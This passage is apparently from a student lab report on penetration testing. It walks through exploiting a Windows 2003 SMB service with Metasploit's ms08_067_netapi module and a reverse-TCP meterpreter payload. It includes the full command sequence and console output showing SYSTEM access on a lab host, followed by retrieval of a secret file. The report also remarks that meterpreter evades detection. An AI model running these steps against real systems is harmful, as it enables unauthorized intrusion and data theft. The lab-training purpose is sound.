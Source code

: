 We found that in port 445 it runs Windows 2003 or 2008 microsoft-ds service, which could exist a flaw. So we searched the Metasploit database and found an exploit called \lstinline{ms08_067_netapi}. It exploits a parsing flaw through the service.  To put it in a detail, in CPU, there is a secure technique called NX bit. It will divide memory into either the storage of data or the storage of processor instructions. The exploit bypasses NX by return to a function call inside a dll file which can disable NX\cite{NXBit}. As a consequence, the evil code will not be prevented and can be executed in the memory.
To make dll injection attack, we need to use meterpreter as our payload. It resides completely in the memory of the remote host and leaves no traces on the hard drive. Thus it becomes very difficult to detect.\cite{payload_meterpreter}
Here are the steps:
\begin{itemize}
	\item \lstinline{use exploit/windows/smb/ms08_067_netapi} 
	\item set RHOST 192.168.233.20
	\item \lstinline{set payload windows/meterpreter/reverse_tcp} 
	\item set LHOST 10.11.12.29
	\item run
	\par \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
[*] Started reverse handler on 10.11.12.29:4444 
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 - No Service Pack - lang:Unknown
[*] Selected Target: Windows 2003 SP0 Universal
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.233.20
[*] Meterpreter session 2 opened (10.11.12.29:4444 -> 192.168.233.20:1069) at 2014-03-05 00:57:55 +0100
	\end{lstlisting}
	We now get the root access of the machine.By typing \textit{getuid} it shows \lstinline{NT AUTHORITY\SYSTEM}. And we can type other commands to browse the file or view its content. We use \textit{search -f secret.txt} command and found that there do have a file called secret.txt. We opened it, which showed the code:c5zmfVpkSJrFA.
	
\end{itemize}